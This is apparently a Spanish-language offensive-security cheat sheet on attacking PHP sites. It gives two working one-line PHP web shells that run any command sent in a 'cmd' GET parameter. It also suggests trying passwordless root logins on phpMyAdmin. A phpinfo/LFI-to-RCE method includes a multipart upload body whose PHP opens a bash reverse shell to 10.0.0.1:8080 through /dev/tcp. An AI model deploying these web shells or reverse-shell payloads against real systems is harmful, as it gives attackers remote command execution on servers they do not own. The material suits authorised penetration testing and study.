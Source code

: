 # Cmd.php

```php
<?php
  system($_GET['cmd']);
?>
```

```php
<?php
	$c=$_GET['cmd'];
	echo `$c`;
?>
```

# PHP MyAdmin

1. En ocasiones permite autenticación sin contraseña, por lo que conviene probar con *root*.
2. Si somos capaces de ver la versión, buscar si existen vulnerabilidades.
# info.php

Si somos capaces de ver un *info.php* ó llamar a la función [[php#Funciones útiles#phpinfo|phpinfo]]:

- Podemos ver funciones deshabilitadas (`disable_functions`)
- Si `file_uploads` está en **true**, podemos abusar de un [[LFI]] para conseguir [[RCE]]. Para ello debemos tramitar una petición por **POST** al propio recurso *info.php* (mediante [[burpsuite]]) con una estructura como la siguiente:

```
POST [...]

Content-Type: multipart/form-data; boundary=--pwned

----pwned
Content-Disposition: form-data; name="name"; filename="cmd.php"
Content-Type: text-plain

<?php system("bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'"); ?>
----pwned
```

# Funciones útiles

## Crear un archivo

Con *file_put_contents* podemos crear un archivo especificando su contenido:

```php
file_put_contents('<nombre>', '<contenido>');
```

## phpinfo